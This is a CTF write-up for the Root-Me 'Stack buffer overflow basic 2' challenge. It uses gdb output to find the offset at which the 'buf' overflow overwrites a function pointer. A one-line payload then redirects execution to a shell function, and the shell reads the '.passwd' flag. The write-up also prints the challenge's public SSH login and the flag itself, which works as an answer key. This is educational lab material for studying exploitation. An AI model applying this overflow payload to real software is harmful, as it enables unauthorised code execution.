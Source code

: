 # ELF x86 - Stack buffer overflow basic 2
https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-2
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 Yes 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch15@challenge02.root-me.org  
Username	app-systeme-ch15
Password	app-systeme-ch15
```
Like [ELF x86 - Stack buffer overflow basic 1](https://github.com/galbarak4/RootMe-Challenges/tree/master/System/ELF%20x86%20-%20Stack%20buffer%20overflow%20basic%201), there is a _buf_ variable (128 bytes).
But now there is a function pointer, _func_. Again no (serious) boundary check, so one can overflow the _buf_ variable and set the _func_ pointer to point to whatever he needs.<br>

First, let's verify that 132 bytes are enough for overwriting the _func_ pointer:
```gdb
(gdb) run < <(python -c "print 'A'*128+'DDDD'")
Starting program: /challenge/app-systeme/ch15/ch15 < <(python -c "print 'A'*128+'DDDD'")

Breakpoint 4, 0x080484c7 in main ()
(gdb) info registers
eax            0x44444444	1145324612
ecx            0xbffffafc	-1073743108
edx            0xb7fd18a4	-1208149852
ebx            0xb7fd0000	-1208156160
esp            0xbffffae0	0xbffffae0
ebp            0xbffffb88	0xbffffb88
esi            0x0	0
edi            0x0	0
eip            0x80484c7	0x80484c7 <main+59>
eflags         0x286	[ PF SF IF ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

As you may notice, the **eax** register set to "DDDD", right before the instruction ```call   *%eax```.<br>
Now, all left to do is change the "DDDD" to the **shell** function, and the program would call it:
```sh
app-systeme-ch15@challenge02:~$ cat <(python -c "print 'A'*128+'\x64\x84\x04\x08'") - | ./ch15
id
uid=1115(app-systeme-ch15) gid=1115(app-systeme-ch15) euid=1215(app-systeme-ch15-cracked) groups=1215(app-systeme-ch15-cracked),100(users),1115(app-systeme-ch15)
cat .passwd
B33r1sSoG0oD4y0urBr4iN
```
